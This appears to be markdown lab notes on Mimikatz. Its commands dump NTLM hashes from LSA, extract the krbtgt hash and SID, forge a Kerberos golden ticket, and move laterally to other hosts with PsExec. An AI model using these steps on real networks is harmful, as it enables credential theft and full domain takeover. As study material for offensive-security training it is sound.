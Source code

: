 #Inside #Windows
Mimikatz is a very popular tool mainly used for dumping user credentials inside of active directory network.
# Dumping NTLM hashes
Firstly we need to open it.
```Powershell
./mimikatz.exe
```
Then we need to make sure we are running as admin (`Privilege '20' ok`)
```mimikatz
privilege::debug
```
And we can now use 
```mimikatz
lsadump::lsa /patch
```

# Golden Ticket Attacks
Firstly we will first dump the hash and sid of the `krbtgt` user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on a network
```mimikatz
lsadump::lsa /inject /name:krbtgt
```
From here we will need to take note of the `Domain` and the `NTLM`, which will look something like

---
Domain : CONTROLLER / **S-1-5-21-849420856-2351964222-986696166** 

RID  : 000001f6 (502)
User : krbtgt

 \* Primary
    NTLM : **5508500012cc005cf7082a9a89ebdfdf**

---
Then we can create a golden ticket, filling each field
```mimikatz
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```
And then use it to access another machine. This will open a new command prompt with elevated privileges to all machines
```mimikatz
misc::cmd
```
Now we can access other machines, our cmd will have access to all other machines on the network
```Cmd
dir \\Destkop-1\c$

PsExec.exe \\Desktop-1 cmd.exe
```